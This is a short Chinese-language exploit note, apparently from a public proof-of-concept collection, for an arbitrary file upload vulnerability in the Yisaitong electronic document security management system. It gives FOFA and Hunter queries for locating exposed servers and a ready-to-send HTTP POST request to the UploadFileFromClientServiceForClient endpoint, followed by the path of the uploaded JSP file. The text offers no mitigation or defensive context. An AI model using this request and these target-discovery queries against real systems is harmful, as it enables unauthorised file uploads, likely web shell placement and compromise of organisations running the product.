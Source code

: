 # 亿赛通电子文档安全管理系统 UploadFileFromClientServiceForClient 任意文件上传漏洞

## 网络测绘

fofa: app="亿赛通-电子文档安全管理系统"

hunter: web.title="电子文档安全管理系统"

## POC / EXP

```
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

Test
```

```
/tttT.jsp
```
